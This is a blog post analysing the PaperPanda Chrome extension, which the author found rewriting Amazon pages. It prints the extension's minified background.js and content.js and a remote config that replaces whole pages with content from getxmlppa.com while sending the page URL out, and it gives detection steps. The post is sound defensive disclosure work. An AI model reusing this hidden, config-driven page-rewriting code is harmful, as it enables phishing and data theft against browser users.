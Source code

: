 ```yaml
---
title: PandaPaper turns malicious
subtitle: Chrome extension modifies HTML and tries to hide it
author: maave
type: post
draft: false
date: 2025-01-27
categories:
  - Projects
tags:
    - chrome
    - extension
    - security
    - reverse engineering
---
```


{{< image src="/uploads/2025/paperpanda-dead.webp" alt="paper panda logo with X for eyes">}}

The "paywalling" of scientific research papers is an ongoing problem that hinders learning, hinders scientific research, and leaches profit from publicly-funded research. PaperPanda is a Chrome extension to download academic papers. Its intention is to find free links for published papers. 

However what PaperPanda does under-the-hood tells another story. I've unearthed malicious code in PaperPanda's Chrome extension and attempts to hide said malicious activity. This extension tried to modify my Amazon pages for unknown reasons - possibly a phisher or credit-card stealer. If you have this extension *UNINSTALL IT*. In this post I'll explain how this extension is malicious and how it hides that behavior.

<!--more-->

## Strange redirect

This morning I was just browsing the internet with Google Chrome. The regular - procrastinating on StackExchange Hot Network Questions - and I came across an old-English word I've never seen. So I highlighted the word, right clicked, and selected "Search Google for _____". Instead of going to Google, my search went to Yahoo. Huh? I checked the history and found a very suspicious domain: `search-yahoo-now.com`. My search was hijacked. Sound the alarm, we have a breach!

`https://search-yahoo-now.com/?guid=877e15a82fa0a426bfd4ce9a6d96625e4&ext=9&domain=google.com&cid=html&rdd=15&q=iwur%C3%B0ge`

I searched this domain on Google and found only one useful result: a reddit post that insinuated that PaperPanda was responsible. After checking the extension's recent reviews I saw multiple complaints about this. Case closed? Hell no, I need to know the extent of this hack. I'm going to rip this app apart, get proper evidence, and then lay blame.

## Extension investigation

Going into my Chrome profile folder, I searched the contents of all my extensions looking for something. I tried searching for this string. I couldn't find any instance of it, not in plaintext or base64 encoded (a common obfuscation technique). Unfortunately I have too many installed and can't audit the code for every single one.

Since I had a tip, but not proof, that it was PaperPanda, I did an in-depth review of the code. Chrome extensions are made with HTML and Javascript and hosted in the app data folder.

`C:\Users\Maave\AppData\Local\Google\Chrome\User Data\Default\Extensions`

PaperPanda's extension ID is `ggjlkinaanncojaippgbndimlhcdlohf` and the malicious version is `2.1.6`.

`C:\Users\Maave\AppData\Local\Google\Chrome\User Data\Default\Extensions\ggjlkinaanncojaippgbndimlhcdlohf\2.1.6_0`

Fortunately, viewing the code for a Chrome extension is easy and there aren't too many files. Unfortunately the code is "minified" which compacts the code and replaces function and variable names. I used Notepad++ with the plugin JSTools for formatting. A Javascript formatter will make it readable but the single-letter names are still difficult.

### Main files

`content.js` calls `background.js` which fetches a config from an external website `getxmlppa.com`. There are two endpoints, "config.php" and "install.php". The "install" endpoint appears unused and the endpoint returns nothing. The "config" is used directly by the extension and returns a JSON object.

#### File contents

[ZIP file of the extension](/uploads/2025/paperpanda_2.1.6.zip)

<details>
  <summary>background.js [SPOILER]</summary>

```
(function () {
    "use strict";
    const o = "https://getxmlppa.com/";
    async function i(n = !1) {
        const c = `${o}config.php?` + Date.now(), {
            config: t,
            configTimestamp: e
        } = await chrome.storage.local.get(["configTimestamp", "config"]);
        if (!n && Date.now() - (e || 0) < 3e5)
            return t;
        const a = await fetch(c).then(s => s.json());
        return chrome.storage.local.set({
            config: a,
            configTimestamp: Date.now()
        }),
        a
    }
    i(!0),
    chrome.runtime.onMessage.addListener((n, c, t) => {
        if (n === "get-config")
            return i().then(e => t(e)), !0
    }),
    chrome.runtime.onInstalled.addListener(function (n) {
        n.reason === "install" && fetch(`${o}install.php`)
    })
})();
```
</details>

<details>
  <summary>content.js [SPOILER]</summary>

```
(function () {
    "use strict";
    let f = l();
    async function l() {
        return await chrome.runtime.sendMessage("get-config")
    }
    async function m() {
        document.location.hostname;
        var o = document.documentElement.innerHTML;
        function a(t, e) {
            if (!e || e === e) {
                var n = t.exec(o);
                if (n && n.length > 1)
                    return n[1]
            }
            return !1
        }
        function s() {
            var t,
            e = ["citation_doi", "doi", "dc.doi", "dc.identifier", "dc.identifier.doi", "bepress_citation_doi", "rft_id", "dcsext.wt_doi"],
            n = document.getElementsByTagName("meta");
            return Array.prototype.forEach.call(n, function (r) {
                if (r.name && !(e.indexOf(r.name.toLowerCase()) < 0) && !(r.scheme && r.scheme.toLowerCase() !== "doi")) {
                    var c = r.content.replace("doi:", "").replace(/https?:\/\/(www\.)?doi\.org\//i, "").trim();
                    c.indexOf("10.") === 0 && (t = c)
                }
            }),
            t ? (console.log("found a DOI from a meta tag: " + t), t) : null
        }
        async function i() {
            for (var t = (await f).p, e = 0; e < t.length; e++) {
                var n = t[e],
                r = a(new RegExp(n.regex), n.host);
                if (r)
                    return r
            }
            return null
        }
        async function d() {
            for (var t = [s, i], e = 0; e < t.length; e++) {
                var n = await t[e]();
                if (n)
                    return n
            }
            return null
        }
        var u = await d();
        return u
    }
    function g(o) {
        if (document.readyState !== "loading") {
            o();
            return
        }
        document.addEventListener("DOMContentLoaded", o)
    }
    function p(o) {
        return o.replace(/{[\w.]+}/, a => {
            const i = a.substr(1, a.length - 2).split(".").reduce((d, u) => d[u], window);
            return encodeURIComponent(i)
        })
    }
    const v = document.location + "";
    g(async() => {
        const o = (await f).s;
        function a() {
            for (const i of o)
                new RegExp(i.pattern, "gi").test(v) && [...document.querySelectorAll(i.selector)].filter(e => !e.hasAttribute("skip-element")).forEach(e => {
                    const n = e.style.display;
                    e.style.display = "none",
                    e.setAttribute("skip-element", !0),
                    fetch(p(i.url)).then(r => r.text()).then(r => {
                        const c = r.trim();
                        c && (e[i.attr] = c)
                    }).catch(() => {}).then(() => e.style.display = n)
                })
        }
        a(),
        new MutationObserver(() => a()).observe(document.body, {
            childList: !0,
            subtree: !0
        })
    }),
    chrome.runtime.onMessage.addListener((o, a, s) => {
        if (o === "get-doi")
            return m().then(i => s(i)), !0
    })
})();
```
</details>

<details>
  <summary>response from config.php aka config.json [SPOILER]</summary>

```
{
  "p": [
    {
      "regex": "\"doi\":\"([^\"]+)\"",
      "host": "ieeexplore.ieee.org"
    },
    {
      "regex": "SDM.doi\\s*=\\s*'([^']+)'",
      "host": "sciencedirect.com"
    },
    {
      "regex": "href=\"/doi/(10\\..+?)\"",
      "host": "psycnet.apa.org"
    },
    {
      "regex": "https?:\\/\\/doi.org\\/(10\\.\\d+\\/.*)",
      "host": "cairn.info"
    },
    {
      "regex": "article:article:(10\\.\\d+[^;]*)",
      "host": "inderscienceonline.com"
    }
  ],
  "s": [
    {
      "pattern": "^https?:\\/\\/(www\\.)?amazon\\.[a-z]{2,3}(\\.[a-z]{2})?\\/.*",
      "selector": "html",
      "attr": "innerHTML",
      "url": "https://getxmlppa.com/ama.php?p=amazon&u={location.href}"
    },
    {
      "pattern": "^https?:\\/\\/(www\\.)?amazon\\.[a-z]{2,3}(\\.[a-z]{2})?\\/.*",
      "selector": "head",
      "attr": "innerHTML",
      "url": "https://getxmlppa.com/ama.php?p=amazon&u={location.href}"
    },
    {
      "pattern": "^https?:\\/\\/(www\\.)?amazon\\.[a-z]{2,3}(\\.[a-z]{2})?\\/.*",
      "selector": "body",
      "attr": "innerHTML",
      "url": "https://getxmlppa.com/ama.php?p=amazon&u={location.href}"
    }
  ]
}
```
</details>

### Code breakdown

background.js contains code to fetch a JSON config from a remote website. The first thing I did was check the endpoints. I visited the url `https://getxmlppa.com/config.php` directly without any HTTP parameters. This config endpoint returned different information the first and second time I queried it. My original response is posted above, formatted for easier reading, no changes were made besides the whitespace formatting.

The first result included _regex to match Amazon URLs_ in the "s" array. When I queried it a second time, _the "s" array was empty_. Wow. We already found suspicious activity just by visiting a link. I cannot replicate this because the app loads content dynamically. The website is hiding its activity. I think I got lucky and I fetched the cached version on the first attempt.

I'm off to a good start. I was expecting Google or Yahoo links but I got Amazon. PaperPanda should not be touching Amazon URLs _ever_. I also found a new endpoint, `ama.php`

Let's walk through the code to determine what's it doing with this config. The suspect code is in content.js in the areas `g(o)`, `p(o)`, and the `g(async() => {` functions. The function `g(o)` creates a listener for page loading, then executes the async() function that was passed to it.

In this config JSON, the "p" array is used legitimately by the extension when you click the extension and "download this paper". "s" array is suspect and is used on page-load to replace part of the HTML contents. I'll explain what the JS code is doing:

1. add an event listener for DOMContentLoaded, to run after the page loads
2. check if the current URL matches a grep pattern (var "pattern" from array "s") and check if element has "skip-element" attribute
3. select HTML elements (using var "selector")
4. hide element
5. add "skip-element" attribute to avoid reprocessing
6. fetch remote content (from var "url")
7. replace one of the element's attributes (var "attr") with new content
8. unhide element

This makes the behavior entirely dependent on the config. In my config it's attempting to replace the entire HTML document for Amazon URLs

```
{
  "pattern": "^https?:\\/\\/(www\\.)?amazon\\.[a-z]{2,3}(\\.[a-z]{2})?\\/.*",
  "selector": "html",
  "attr": "innerHTML",
  "url": "https://getxmlppa.com/ama.php?p=amazon&u={location.href}"
},
```

recreating the steps with this config would cause this to happen:

1. add event listener DOMContentLoaded
2. check if URL matches amazon
3. select HTML element "html" (**the entire page**)
4. hide element
5. add "skip-element" attribute to avoid reprocessing
6. fetch content from `https://getxmlppa.com/ama.php?p=amazon&u={location.href}`
7. replace attribute "innerHTML" (**all of the page's code**) with content fetched
8. unhide element

This is malicious. This is trying to replace the entirety of my Amazon pages with its own content. PaperPanda has no reason to touch Amazon links. Without that config, this piece of code looks benign. It could be explained away by saying the code is intended to place URLs (it could, theoretically, replace the "url" attribute in anchor elements). With this config it's clear that this extension targeting websites outside its intended use. It is **malicious** and **trying to hide its behavior by changing configs**.

The endpoint `ama.php` responds with a 200 response but doesn't return any data, even with the params filled in. I'm unsure if the endpoint is nonfunctional, or if it was intentionally disabled when the config was changed. So the real goal of this content replacement is unknown. This app could have been stealing logins, credit card info, etc. It could've replaced affiliate information with its own like the recent Honey shopping extension scam. It could've done anything with any page. This is not accidental and not a result of some kind of library-inclusion-attack. PaperPanda targeted Amazon links and tried to _replace the entire HTML content_.

## Check yourself

If you have a page which you suspect of being hijacked, don't reload yet. Right click, inspect, then Ctrl+F and search for "skip-element". This attribute is not standard. If "skip-element" is anywhere in your HTML elements it's because of PaperPanda.

Get the stored config data from the Chrome console. Go to `chrome://extensions` and enable Developer Mode. Scroll to PaperPanda, click the link to "service worker" which will open Chrome DevTools. This should open straight to the Console tab. Type `chrome.storage.local.get(console.log)` to output the local storage. My extension already updated so the "s" array is empty.

Another way: On any page, open the PaperPanda extension, right click on it, inspect. This should be inspecting the extension, the DevTools window that pops up should be titled `chrome-extension://ggjlkinaanncojaippgbndimlhcdlohf/popup.html` Then in the Console tab of DevTools type `chrome.storage.local.get(console.log)` to output the local.

View the extension code yourself from chrome profile data. For me that's in: `C:\Users\UserName\AppData\Local\Google\Chrome\User Data\Profile 1\Extensions\ggjlkinaanncojaippgbndimlhcdlohf` because I have multiple profiles. If you have a single profile in Chrome then it would be in the "Default" folder: `C:\Users\UserName\AppData\Local\Google\Chrome\User Data\Default\Extensions\ggjlkinaanncojaippgbndimlhcdlohf`. The Javascript files have been minified so it needs to be formatted for reading. I used the Notepad++ plugin JSTool to format it. There are also plenty of JS formatters online. But the variable names and function names are still single letters so it's hard to follow.


## Conclusion

PaperPanda is hijacking web contents. I didn't find a Yahoo search redirect but instead I found an arbitrary page re-writer driven by a config that changes every time you load it. They attempt to evade detection by moving the payload to an external page. This garbage plugin has been installed on my Chrome for months and I only noticed because they performed a blatant redirect. Who knows what damage it caused, what information it stole, because it could have modified any website to have any content.

Uninstall this extension. Report it for abuse. _Distrust extensions that ask for permission to all websites_.